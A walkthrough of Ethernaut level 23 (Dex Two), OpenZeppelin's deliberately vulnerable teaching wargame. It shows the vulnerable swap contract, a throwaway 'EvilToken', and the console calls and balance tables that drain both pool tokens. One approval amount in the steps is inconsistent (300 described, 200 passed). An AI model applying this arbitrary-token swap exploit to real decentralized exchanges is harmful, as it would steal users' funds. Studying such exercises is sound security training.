 # Level 23: Dex

This is the level 23 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [ERC20 Token Standard](https://eips.ethereum.org/EIPS/eip-20)

## Hack

Given contract:
```solidity
contract DexTwo  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_amount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_amount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(spender, amount);
    SwappableTokenTwo(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

`player` has to drain all of `token1` and `token2`.

The vulnerability here arises from `swap` method which does not check that the swap is necessarily between `token1` and `token2`. We'll exploit this.

Let's deploy a token - `EvilToken` in Remix, with initial supply of 400, all given to `msg.sender` which would be the `player`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract EvilToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("EvilToken", "EVL") {
        _mint(msg.sender, initialSupply);
    }
}
```
We're going to exchange `EVL` token for `token1` and `token2` in such a way to drain both from `DexTwo`. Initially both `token1` and `token2` is 100. Let's send 100 of `EVL` to `DexTwo` using `EvilToken`'s `transfer`. So, that price ratio in `DexTwo` between `EVL` and `token1` is 1:1. Same ratio goes for `token2`.

Also, allow `DexTwo` to transact 300 (100 for `token1` and 200 for `token2` exchange) of our `EVL` tokens so that it can swap `EVL` tokens. This can be done by `approve` method of `EvilToken`, passing `contract.address` and `200` as params.

Alright at this point `DexTwo` has 100 of each - `token1`, `token2` and `EVL`. And `player` has 300 of `EVL`.
```
      DEX             |      player  
token1 - token2 - EVL | token1 - token2 - EVL
---------------------------------------------
  100     100     100 |   10      10      300
```

Get token addresses:
```javascript
evlToken = '<EVL-token-address>'
t1 = await contract.token1()
t2 = await contract.token2()
```

Swap 100 of `player`'s `EVL` with `token1`:
```javascript
await contract.swap(evlToken, t1, 100)
```

This would drain all of `token1` from `DexTwo`. Verify by:
```javascript
await contract.balanceOf(t1, instance).then(v => v.toString())

// Output: '0'
```

Updated balances:
```
      DEX             |      player  
token1 - token2 - EVL | token1 - token2 - EVL
---------------------------------------------
  100     100     100 |   10      10      300
  0       100     200 |   110     10      200
```

Now, according to `get_swap_amount` method, to get all 100 of `token2` in exchange we need 200 of `EVL`. Swap accordingly:
```javascript
await contract.swap(evlToken, t2, 200)
```

And `token2` is drained too! Verify by:
```javascript
await contract.balanceOf(t2, instance).then(v => v.toString())

// Output: '0'
```

Finally:
```
      DEX             |      player  
token1 - token2 - EVL | token1 - token2 - EVL
---------------------------------------------
  100     100     100 |   10      10      300
  0       100     200 |   110     10      200
  0       0       400 |   110     110     0
```


Level passed!

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏

